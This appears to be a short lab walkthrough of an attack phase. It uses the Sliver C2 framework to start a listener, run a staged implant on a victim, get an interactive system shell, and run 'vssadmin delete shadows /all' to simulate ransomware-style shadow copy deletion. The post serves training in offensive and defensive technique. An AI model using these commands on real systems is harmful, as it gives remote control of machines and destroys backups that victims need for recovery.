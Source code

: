  Attack

With the environment prepared and access to the victim machine confirmed, I proceeded to launch the attack phase using the Sliver C2 framework. The implant used in this phase was created during a previous lab and is already staged on the victim.


 Launch the Sliver server
```bash
sliver-server
```
 Run HTTP listner
```bash
http
```
 On the victim machine execute the implant
```powershell
./NEW_SHAKEDOWN (#You'll have to navigate to directory, or specify path)
```

 Return to the attacker machine and check for an incoming session
```bash
sessions
```
 Interact with the live session
```bash
 use <session_id>
```
 Drop to system native command prompt 
```bash
shell(#When Prompted 'are you an adult?' type Y) 
```
 Verify active sysytem shell
```bash
whoami
```
 Run command to simulate volime Shadow Copy deletion
```bash
vssadmin delete shadows /all
```
